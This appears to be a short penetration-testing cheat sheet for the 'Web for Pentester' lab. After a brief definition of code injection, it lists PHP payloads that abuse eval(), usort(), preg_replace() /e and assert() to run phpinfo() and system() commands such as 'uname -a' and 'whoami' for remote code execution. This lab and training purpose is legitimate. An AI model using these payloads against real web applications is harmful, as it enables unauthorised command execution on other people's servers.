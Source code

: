 <h2>Code Injection</h2>
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

Web for Penterster 
example 1 
eval() - evaluates a string as PHP code

payload- " .phpinfo(). "
payload- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


example 2 
usort()- Sort an array by values using a user-defined comparison function

payload-example2.php?order=id,system('whoami')
payload- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


example 3
preg_replace() — Perform a regular expression search and replace

payload - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"
payload - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


example 4
assert() - Checks if assertion is FALSE
payload - example4.php?name=hacker'.phpinfo().'
payload - example4.php?name=hacker'.system('uname -a').'

